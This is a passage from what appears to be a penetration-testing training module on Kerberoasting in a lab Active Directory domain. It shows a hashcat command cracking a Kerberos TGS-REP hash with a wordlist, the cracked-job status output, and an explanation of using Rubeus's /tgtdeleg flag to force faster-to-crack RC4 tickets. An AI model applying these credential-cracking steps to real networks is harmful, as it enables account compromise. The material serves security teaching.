 <mark style="color:green;">**Running Hashcat & Checking the Status of the Cracking Job**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```
{% endcode %}

When the hash finally cracks, we see that it took 4 minutes 36 seconds for a relatively simple password on a CPU. This would be greatly magnified with a stronger/longer password.

<mark style="color:green;">**Viewing the Length of Time it Took to Crack**</mark>

```shell-session
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 18, TGS-REP
Hash.Target......: $krb5tgs$18$testspn$INLANEFREIGHT.LOCAL$8939f8c5b97...413d53
Time.Started.....: Sun Feb 27 16:07:50 2022 (4 mins, 36 secs)
Time.Estimated...: Sun Feb 27 16:12:26 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    10114 H/s (9.25ms) @ Accel:1024 Loops:64 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2789376/14344385 (19.45%)
Rejected.........: 0/2789376 (0.00%)
Restore.Point....: 2783232/14344385 (19.40%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4032-4095
Candidates.#1....: wenses28 -> wejustare
```

We can use Rubeus with the `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request. This may be a failsafe built-in to Active Directory for backward compatibility. By using this flag, we can request an RC4 (type 23) encrypted ticket that can be cracked much faster.

<mark style="color:green;">**Using the /tgtdeleg Flag**</mark>
